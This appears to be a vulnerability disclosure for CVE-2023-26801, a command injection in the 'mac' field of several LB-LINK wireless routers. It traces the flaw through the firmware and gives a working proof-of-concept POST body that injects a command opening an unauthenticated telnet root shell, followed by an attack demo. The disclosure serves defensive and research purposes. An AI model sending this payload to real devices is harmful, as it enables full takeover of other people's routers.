


# CVE-ID

[CVE-2023-26801](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26801 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26801")

# Information

**Vendor of the products:**    LB-LINK

**Vendor's website:**

[https://www.lb-link.cn (Global)](https://www.lb-link.cn "https://www.lb-link.cn")

[https://www.b-link.net.cn (China)](https://www.b-link.net.cn "https://www.b-link.net.cn")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**

LB-LINK BL-AC1900_2.0

LB-LINK BL-WR9000

LB-LINK BL-X26

LB-LINK BL-LTE300

**Affected firmware version:**

LB-LINK BL-AC1900_2.0 V1.0.1 (the latest release version)

LB-LINK BL-WR9000 V2.4.9 (the latest release version)

LB-LINK BL-X26 V1.2.5 (the latest release version)

LB-LINK BL-LTE300 V1.0.8 (the latest release version)

**Firmware download address:**

[LB-LINK BL-AC1900_2.0 V1.0.1](https://www.b-link.net.cn/inc/lib/download/download.php?DId=73 "https://www.b-link.net.cn/inc/lib/download/download.php?DId=73")

[LB-LINK BL-WR9000 V2.4.9](https://www.b-link.net.cn/inc/lib/download/download.php?DId=74 "https://www.b-link.net.cn/inc/lib/download/download.php?DId=74")

[LB-LINK BL-X26 V1.2.5](https://www.b-link.net.cn/inc/lib/download/download.php?DId=88 "https://www.b-link.net.cn/inc/lib/download/download.php?DId=88")

[LB-LINK BL-LTE300 V1.0.8](https://www.b-link.net.cn/inc/lib/download/download.php?DId=346 "https://www.b-link.net.cn/inc/lib/download/download.php?DId=346")

# Overview

`LB-LINK BL-AC1900_2.0 V1.0.1, BL-WR9000 V2.4.9, BL-X26 V1.2.5 and BL-LTE300 V1.0.8 Wireless Routers` were discovered to contain a `command injection vulnerability`. The vulnerability is caused by the lax check of the `mac` field. An unauthorized attacker can send crafted requests to `/goform/set_LimitClient_cfg`, executing arbitrary commands on remote devices.

# Vulnerability details

**The vulnerability was detected in the file `/lib/libshare-0.0.26.so`.**

In the `bs_SetLimitCli_info` function of `/lib/libshare-0.0.26.so`, obtain the contents of the `mac`, `time1`, and `time2` fields from the `JSON` data passed in.



When the `time1` and `time2` fields are both `00:00-00:00`, the contents of the `mac` field are spliced into a format string without any checks and executed as an argument to `bl_do_system`.


In the `ftext` function, the entry to the **`/bin/goahead`** program, the `formDefineCGIjson` function is called to define the corresponding handler for the URL `/goform/xxx`.


The `/goform/set_LimitClient_cfg` URL corresponds to `sub_44DB74`.


In `sub_44DB74` function, the content of fields in `POST` request is obtained by `websGetVar`, then converted to `JSON` format, and the `JSON` data is passed to vulnerability function `bs_SetLimitCli_info`.


In summary, if the `time1` and `time2` fields are both `00:00-00:00`, malicious commands can be injected into the `mac` field and executed.

# Poc

Send the following as a `POST` request to the URL `/goform/set_LimitClient_cfg`. 

```
time1=00:00-00:00&time2=00:00-00:00&mac=;telnetd -l /bin/sh;
```

Just set the `Cookie` to `user=admin`, and the program has no special checks for `Cookie`. This means that no authentication is required to exploit the vulnerability.

# Attack Demo

Before attack, we scan ports and ensure that only ports `53` and `80` are enabled.



Then, use `BurpSuite` to send the above `POC`.


After that, we scan ports again and dectect that the port `23` which represents `Telnet service` has been opened.


Finally, the attacker can log in to the remote device directly through `telnet` and control it entirely.


